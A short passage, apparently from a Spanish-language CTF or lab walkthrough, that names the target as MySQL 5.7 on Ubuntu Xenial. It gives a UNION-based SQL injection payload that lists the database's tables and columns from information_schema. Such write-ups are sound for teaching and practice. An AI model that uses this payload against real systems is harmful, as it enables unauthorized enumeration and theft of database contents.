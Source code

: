 ![Pasted-image-20240721015340.png](./assets/Pasted-image-20240721015340.png)

Es una base de datos mysql 5.7 en ubuntu xenial. Ahora, continuemos viendo las tablas con los campos que tiene con el siguiente comando:

```sql
' UNION SELECT NULL, table_name, concat(column_name, ' - ', table_name) FROM information_schema.columns WHERE table_schema=database() -- -
```

esto nos arroja lo siguiente:

![Pasted-image-20240721020748.png](./assets/Pasted-image-20240721020748.png)

